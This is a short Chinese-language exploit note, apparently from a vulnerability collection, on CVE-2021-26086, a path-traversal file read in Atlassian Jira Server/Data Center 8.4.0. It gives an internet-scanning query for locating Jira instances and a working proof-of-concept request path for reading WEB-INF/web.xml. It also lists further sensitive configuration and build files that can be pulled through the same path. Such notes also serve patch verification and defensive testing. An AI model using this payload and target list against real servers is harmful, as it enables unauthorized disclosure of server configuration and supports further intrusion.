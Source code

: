 # 

# Atlassian Jira cfx 任意文件读取漏洞 CVE-2021-26086

## 漏洞描述

Atlassian Jira Server/Data Center 8.4.0 - Limited Remote File Read/Include

## 漏洞影响

```
Atlassian Jira Server/Data Center 8.4.0
```

## 网络测绘

```
app="ATLASSIAN-JIRA"
```

## 漏洞复现

登录页面

![](./images/202205241424642.png)

验证POC

```
/s/cfx/_/;/WEB-INF/web.xml
```

![](./images/202205241424545.png)

可读取敏感配置文件

```
WEB-INF/web.xml
WEB-INF/decorators.xml
WEB-INF/classes/seraph-config.xml
META-INF/maven/com.atlassian.jira/jira-webapp-dist/pom.properties
META-INF/maven/com.atlassian.jira/jira-webapp-dist/pom.xml
META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml
META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.properties
```


